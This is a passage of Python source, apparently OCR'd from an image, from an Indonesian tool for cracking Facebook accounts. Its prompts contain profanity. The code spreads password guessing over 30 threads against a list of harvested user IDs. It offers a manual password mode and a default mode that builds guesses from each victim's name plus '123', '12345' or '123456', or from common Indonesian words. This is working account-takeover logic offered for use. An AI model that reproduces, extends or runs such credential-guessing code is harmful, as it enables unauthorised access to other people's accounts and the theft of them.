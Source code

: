 								print(f"{B} | ")
								print(f"{P}[•]{M} Sandi tidak boleh kosong anjink");exit()
							started()
							for user in id:
								uid, name = user.split("<=>")
								coeg.submit(mbasic, uid, asu)
						exit()
					elif ter in ["d","D"]:
						with ThreadPoolExecutor(max_workers=30) as coeg:
							started()
							for user in id:
								uid, name = user.split("<=>")
								frist=name.split(" ")
								if len(frist)>=6:
									fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
								elif len(frist)<=2:
									fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
								elif len(frist)<=3:
									fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
								else:
									fii = [ "bissmilah", "anjing", "indonesia", "sayangkamu" ]
								coeg.submit(mbasic, uid, fii)
						exit()
				else:print(f"{key}");exit()
			except (KeyError,IOError):print(f"{_key}");exit()

		else:
			print(f"{B} | ")
			print(f"{B} | ")
			print(f"{P}[•] Crack menggunakan pasword manual/defaults {B}M/D")
			print(f"{B} | ")
			ter =input(f"{P}[•] Pilih : {B}")
			if ter in ["m","M"]:
				with ThreadPoolExecutor(max_workers=30) as coeg:
					print(f"{B} | ")
					print(f"{B} | ")
					print(f"{P}[•] Contoh password {B}Anjink,kontol,sayang")
					print(f"{B} | ")
					asu = input(f"{P}[•] Buat sandi : {B}").split(",")
					if len(asu) =="":
						print(f"{B} | ")
						print(f"{B} | ")
						print(f"{P}[•]{M} Sandi tidak boleh kosong");exit()
					started()
					for user in id:
						uid, name = user.split("<=>")
						coeg.submit(mbasicc, uid, asu)
				exit()
			elif ter in ["d","D"]:
				with ThreadPoolExecutor(max_workers=30) as coeg:
					started()
					for user in id:
						uid, name = user.split("<=>")
						frist=name.split(" ")
						if len(frist)>=6:
							fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
						elif len(frist)<=2:
							fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
						elif len(frist)<=3:
							fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
						else:
							fii = [ "bissmilah", "anjing", "indonesia", "sayangkamu" ]
						coeg.submit(mbasicc, uid, fii)
				exit()